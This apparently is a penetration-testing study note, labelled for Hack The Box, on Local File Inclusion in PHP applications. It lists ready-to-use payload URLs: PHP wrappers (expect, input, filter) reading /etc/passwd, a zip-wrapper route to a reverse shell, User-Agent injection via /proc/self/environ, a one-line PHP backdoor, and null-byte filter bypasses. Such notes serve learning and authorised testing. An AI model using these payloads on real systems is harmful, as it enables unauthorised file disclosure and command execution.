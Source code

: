 # HTB
# Medium article
https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601
## Key Takeaways
### PHP Wrappers
#### expect
PHP expect:// allows execution of system commands, unfortunately the expect PHP module is not enabled by default.
```
www.example.com?page=expect://ls
```
#### input
The payload is sent in a POST request to the server such as:
```
www.example.com?page=php://input&cmd=ls
```
#### filter
php://filter allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.
```
www.example.com?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

php://filter can also be used without base64 encoding the output using:
```
www.example.com?page=php://filter/resource=/etc/passwd
```
#### zip
The zip wrapper processes uploaded .zip files server side allowing a penetration tester to upload a zip file using a vulnerable file upload function and leverage he zip filter via an LFI to execute. A typical attack example would look like:

1. Create a PHP reverse shell

2. Compress to a .zip file

3. Upload the compressed shell payload to the server

4. Use the zip wrapper to extract the payload using: php?page=zip://path/to/file.zip%23shell

5. The above will extract the zip file to shell, if the server does not append .php rename it to shell.php instead

If the file upload function does not allow zip files to be uploaded, attempts can be made to bypass the file upload function (see: OWASP file upload testing document).

### /proc/self/environ
If it’s possible to include /proc/self/environ via a local file inclusion vulnerability, then introducing source code via the User Agent header is a possible vector. Once code has been injected into the User Agent header a local file inclusion vulnerability can be leveraged to execute /proc/self/environ and reload the environment variables, executing your reverse shell.
#### Useful Shells

Useful tiny PHP back doors for the above techniques:
```
<? system(‘uname -a’);?>
```
### Null Byte
Null byte injection bypasses application filtering within web applications by adding URL encoded “Null bytes” such as %00. Typically, this bypasses basic web application blacklist filters by adding additional null characters that are then allowed or not processed by the backend web application.

Some practical examples of null byte injection for LFI:
```
    vuln.php?page=/etc/passwd%00

    vuln.php?page=/etc/passwd%2500
```
